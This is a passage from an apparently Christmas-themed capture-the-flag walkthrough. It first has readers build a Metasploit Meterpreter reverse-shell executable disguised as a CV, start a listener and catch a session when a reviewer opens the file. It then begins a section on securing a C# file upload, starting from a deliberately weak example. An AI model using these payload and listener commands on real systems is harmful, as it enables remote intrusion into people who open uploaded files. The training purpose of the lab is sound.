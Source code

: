 
Shell from Santa  

Let's try to target one of Santa's elves that would be reviewing the uploaded CVs. In most cases, we would have to be quite creative with the malware that we upload, especially since this is for an application to a security role! This will require us to create a CV with a malicious macro embedded. However, since we are on Santa's red team and this is a security assessment, we only need to show proof of concept. Let's use Metasploit to generate a malicious CV:  

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT="Listening port" -f exe -o cv-username.exe`

You can then also use the following to create the associated listener in the msfconsole:

`sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 'listening port'; exploit"`  

Once we have our CV, we can upload the file again. Once uploaded, give it a few minutes, and one of those elves should be reviewing our CV:

```
[*] Started reverse handler on 10.50.1.120:4444 [*] Starting the payload handler... [*] Sending stage (770048 bytes) to 10.10.1.20 [*] Meterpreter session 1 opened (10.50.1.120:4444 -> 10.10.1.20:1138) at 2022-10-22 19:03:43 -0500 meterpreter >
```

This is sufficient for a proof of concept for Elf McSkidy to take to Santa and request that additional security controls must be implemented on the application! Using your shell, go read the flag from the specific elf's home directory.

Properly Securing File Uploads

To adequately secure the file upload feature, we will need to implement layers of defence. In this task, we will use a C# file upload as the case study. C# is a popular language used to create both Windows application and web applications at large organisations. Let's look at our base file upload function first:

Upload.cshtml  

```csharp
public IActionResult OnPostUpload(FileUpload fileUpload)
    {   
        var fullPath = "D:\CVUploads\"
        var formFile = fileUpload.FormFile;
        var filePath = Path.Combine(fullPath, formFile.FileName);

        using (var stream = System.IO.File.Create(filePath))
            {
                formFile.CopyToAsync(stream);
            }
    }
```

As we can see, the developer made sure to store the CV outside the web root by setting the full path to a different drive (D:\CVUploads). However, this is not sufficient. Let's take a look at what additional controls can be implemented:

File Content Validation
